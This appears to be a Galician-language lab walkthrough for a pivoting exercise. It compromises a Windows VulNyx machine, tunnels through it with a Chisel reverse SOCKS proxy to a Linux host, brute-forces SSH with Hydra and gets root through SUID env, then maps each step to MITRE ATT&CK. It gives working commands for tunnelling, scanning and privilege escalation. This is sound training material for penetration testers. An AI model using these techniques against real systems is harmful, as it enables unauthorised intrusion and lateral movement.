


Pivoting Windows → Linux
Escenario de Pivoting War → Basic
Para realizar esta práctica é necesario modificar a configuración de rede das máquinas virtuais en VirtualBox.

Configuración do Escenario (Montaxe)
Antes de iniciar as máquinas, debemos configurar as tarxetas de rede no hipervisor (VirtualBox).
1. Configuración de VirtualBox
Máquina Atacante (Kali Linux):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet0- IP esperada:
192.168.56.X - Obxectivo: Punto de entrada do atacante. Debe ter conectividade coa máquina pivote.
- IP esperada:
Máquina Pivote (VulNyx War — Windows):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet0- Obxectivo: Ser alcanzable dende Kali unha vez comprometida.
-
Adaptador 2: Rede Host-Only (Anfitrión) →
vboxnet1- Obxectivo: Acceder a unha segunda rede que Kali non pode alcanzar directamente (rede de pivoting).
- Nota (VirtualBox): ao crear
vboxnet1, VirtualBox adoita asignarlle por defecto a rede192.168.57.0/24(por exemplo, o host queda en192.168.57.1). - Nota (laboratorio): activa o servidor DHCP de
vboxnet1(no Host Network Manager → separador Servidor DHCP) para que War obteña IP automaticamente sen modificar a OVA.
Máquina Obxectivo (VulNyx Basic — Linux):
-
Adaptador 1: Rede Host-Only (Anfitrión) →
vboxnet1- Obxectivo: Estar illada do mundo exterior e só accesible a través da máquina pivote (War).
- Nota: se
vboxnet1ten DHCP activo, Basic obterá unha IP192.168.57.Xautomaticamente. A IP exacta descúbrese dende War tras o compromiso (ARP / ping).
Introducción ao Reto
O obxectivo deste escenario é...
- Compromiso inicial de máquina Windows (War)
- Descubrimento de rede interna (Enumeración de interfaces e ARP)
- Configuración de Túnel SOCKS5 con Chisel
- Uso de Proxychains para escanear a través do túnel
- Enumeración de servizos ocultos (CUPS) en rede interna
- Movemento Lateral vía SSH cara a Linux (Basic)
- Escalada de privilexios final en máquina pivotada
Mapa de vectores de ataque
- Kali ataca a War (Tomcat Exploit)
- War convértese en proxy SOCKS (Chisel)
- Kali ataca a Basic a través de War (SSH Brute Force)
Diagrama de ataque

Fase 1 — Recopilación (Compromiso Previo e Descubrimento Interno)
Premisa: Seguindo os pasos do documento War, xa comprometemos a máquina War mediante:
- Forza bruta con Hydra sobre Tomcat Manager (
/manager/html) - Deploy de ficheiro WAR malicioso con msfvenom
- Obtención de shell como
NT AUTHORITY\LOCAL SERVICE - Escalada de privilexios mediante SeImpersonatePrivilege con SigmaPotato
- Obtención de shell como
NT AUTHORITY\SYSTEMouAdministrator
Estado actual: Temos unha shell con privilexios de administrador na máquina War.
Paso 1.1: Enumeración de Interfaces en War
Dende a nosa shell en Windows (War), verificamos se existe unha segunda tarxeta de rede que nos conecte a un segmento descoñecido.
Saída relevante:
IP das máquinas virtuais
No caso de execución deste procedemento a IP da máquina:
1. Kali Linux foi: 192.168.56.113
2. War foi: NIC1 → 192.168.56.177 e NIC2 → 192.168.57.3
3. Basic foi: 192.168.57.4
, pero no voso caso pode variar. Tédeo en conta para o seguimento desta práctica.
Ethernet adapter Ethernet:
IPv4 Address. . . . . . . . . . . : 192.168.56.177 (Exposta a Kali)
Ethernet adapter Ethernet 2:
IPv4 Address. . . . . . . . . . . : 192.168.57.3 (Rede Pivoting vía vboxnet1 - DHCP)
Descubrimento: Existe unha rede 192.168.57.0/24 illada de Kali.
Paso 1.2: Descubrimento de Veciños (Host Discovery)
Buscamos máquinas vivas nesa rede interna. Dado que non temos Nmap en Windows, usamos a táboa ARP ou un Ping nativo.
# Opción A: Ver táboa ARP (Máis silencioso)
> arp -a
# Opción B: Ping
> for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.57.%i | find "Reply"
Reply from 192.168.57.1: bytes=32 time<1ms TTL=64 #IP host anfitrión
Reply from 192.168.57.2: bytes=32 time<1ms TTL=255 #IP router rede host-only
Reply from 192.168.57.3: bytes=32 time<1ms TTL=128 #IP Ethernet2 (War)
Reply from 192.168.57.4: bytes=32 time<1ms TTL=64 #IP máquina virtual Basic
Resultado:
Obxectivo Identificado: 192.168.57.4 (Máquina Basic).
Nota: O TTL=64 indícanos que probablemente sexa un sistema Linux.
Fase 2 — Análise (Configuración do Túnel e Enumeración Remota)
Para atacar a Basic, necesitamos crear unha ponte (túnel) a través de War.
Chisel (Proxy SOCKS5)
Esta opción permite tunelizar calquera tipo de tráfico de rede.
Paso 2.1: Transferencia de Chisel a War
1. Descargamos chisel (.deb e .exe) na Kali
cd
wget https://github.com/jpillora/chisel/releases/download/v1.11.3/chisel_1.11.3_linux_amd64.deb
sudo dpkg -i chisel_1.11.3_linux_amd64.deb
cd /home/kali/Downloads
wget https://github.com/jpillora/chisel/releases/download/v1.11.3/chisel_1.11.3_windows_amd64.zip
7z x chisel_1.11.3_windows_amd64.zip
ls
chisel.exe
2. Compartimos o cartafol en Kali (onde temos o chisel.exe descargado)
3. En War (Shell de Administrator)
Paso 2.2: Execución do Túnel (Reverse SOCKS)
1. En Kali (Servidor):
# Escoitar no porto 8000 permitindo túneles inversos
$ chisel server --reverse --port 8000
2025/12/14 21:58:41 server: Reverse tunnelling enabled
2025/12/14 21:58:41 server: Fingerprint 3zFC8R/QA1nDZCksK65RRGLLDX6AlnlT5k93YCbYLyY=
2025/12/14 21:58:41 server: Listening on http://0.0.0.0:8000
2. En War (Cliente):
# Conectar a Kali e abrir un SOCKS na máquina atacante
> C:\Windows\Temp\chisel.exe client IP_Atacante:8000 R:socks
Saída esperada en Kali:
2025/12/14 22:01:28 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening (Túnel establecido no porto 1080)
Paso 2.3: Configuración de Proxychains
Editamos /etc/proxychains4.conf en Kali para usar o túnel:
Paso 2.4: Escaneo de Portos a través do Túnel
# Usamos -sT (Connect Scan) e -Pn (Non Ping) porque os túneles SOCKS non soportan SYN scans nin ICMP
proxychains nmap -sT -Pn -n -p- --min-rate 3000 192.168.57.4
Resultado:
Paso 2.5: Enumeración de Servizos (CUPS)
Dado que o porto 631 é HTTP, necesitamos acceder co navegador a través do proxy.
Configuración en Kali:
Configurar Proxy en Firefox para usar SOCKS5 en 127.0.0.1:1080.

Acceso:
Navegar a http://192.168.57.4:631.
Achado:
Na sección "Printers" ou "Jobs", visualizamos información da impresora que revela o usuario propietario.
Usuario identificado: [usuario_basic] (Nome extraído de CUPS).
Fase 3 — Explotación (Movemento Lateral via SSH)
Paso 3.1: Forza Bruta contra SSH Interno
Como temos o usuario extraído de CUPS ([usuario_basic]) e o porto 22 aberto, lanzamos Hydra.
Con Chisel (Proxychains)
Resultado:
[22][ssh] host: 192.168.57.4 login: [usuario_basic] password: [contrasinal_basic]
Paso 3.2: Acceso á Máquina Basic
Con Chisel (Proxychains)
Fase 4 — Post-explotación (Escalada de Privilexios en Basic)
Xa dentro de Basic, o procedemento é local (idéntico ao documento Basic), xa non dependemos do túnel para esta fase, só da shell SSH.
Paso 4.1: Busca de Binarios SUID
Vector detectado: /usr/bin/env ten permisos SUID.
Paso 4.2: Explotación de env con SUID
# Consulta en GTFOBins para env
# https://gtfobins.github.io/gtfobins/env/
# Explotación
/usr/bin/env /bin/bash -p
Verificación:
id
# uid=1000([usuario_basic]) gid=1000([usuario_basic]) euid=0(root) grupos=1000([usuario_basic])
whoami
# root
cat /root/root.txt
# [FLAG ROOT]
Shell de root conseguida mediante abuso de binario SUID.
Correspondencia de Fases → MITRE ATT&CK — Pivoting Scenario
Fase 1 — Recopilación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Descubrimento de segunda interface en War (ipconfig) | Host Networking Discovery | T1016 — System Network Configuration Discovery | CWE-200 — Information Exposure |
| Ping dende Windows (War) cara a Basic | Network Service Scanning | T1046 — Network Service Discovery T1018 — Remote System Discovery |
CWE-200 — Information Exposure |
| Identificación de host activo (192.168.57.4) | Remote System Discovery | T1018 — Remote System Discovery | CWE-200 — Information Exposure |
Fase 2 — Análise
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Transferencia de Chisel/Socat/Plink a War | Lateral Tool Transfer | T1570 — Lateral Tool Transfer | N/A |
| Establecemento de Túnel SOCKS5 (Chisel Reverse Proxy) | Protocol Tunneling | T1090 — Proxy T1572 — Protocol Tunneling |
N/A |
| Escaneo de portos a través de Proxychains | Active Scanning via Proxy | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure |
| Enumeración de CUPS (porto 631) | Service Enumeration | T1046 — Network Service Discovery | CWE-200 — Information Exposure |
| Identificación de usuario mediante CUPS | Account Discovery | T1087 — Account Discovery | CWE-200 — Information Exposure |
Fase 3 — Explotación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Forza Bruta SSH contra Basic (Hydra) | Password Guessing / SSH | T1110 — Brute Force T1110.001 — Brute Force: Password Guessing |
CWE-521 — Weak Password Requirements CWE-307 — Improper Restriction of Excessive Authentication Attempts |
| Acceso SSH a Basic mediante credenciais | Remote Services: SSH | T1021.004 — Remote Services: SSH | N/A |
Fase 4 — Post-explotación
| Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|
| Busca de binarios con permisos SUID | File and Directory Discovery | T1083 — File and Directory Discovery T1068 — Exploitation for Privilege Escalation |
CWE-732 — Incorrect Permission Assignment for Critical Resource |
| Abuso de /usr/bin/env con SUID | SUID Binary Exploitation | T1548.001 — Abuse Elevation Control Mechanism: Setuid and Setgid T1059.004 — Command and Scripting Interpreter: Unix Shell |
CWE-269 — Improper Privilege Management CWE-732 — Incorrect Permission Assignment for Critical Resource |
| Obtención de shell de root | Privilege Escalation | T1068 — Exploitation for Privilege Escalation | CWE-269 — Improper Privilege Management |
| Lectura de flags (user.txt, root.txt) | Data from Local System | T1005 — Data from Local System | N/A |
Resumo
Neste escenario de pivoting aprendemos:
- Fase 1 - Recopilación: Recoñecemento de redes internas mediante enumeración de interfaces e descubrimento de hosts en segmentos illados
- Fase 2 - Análise: Técnica de tunelización (Chisel para SOCKS5) e enumeración de servizos remotos
- Fase 3 - Explotación: Movemento lateral mediante forza bruta SSH a través do túnel establecido
- Fase 4 - Post-explotación: Escalada de privilexios local en sistema Linux mediante abuso de binario SUID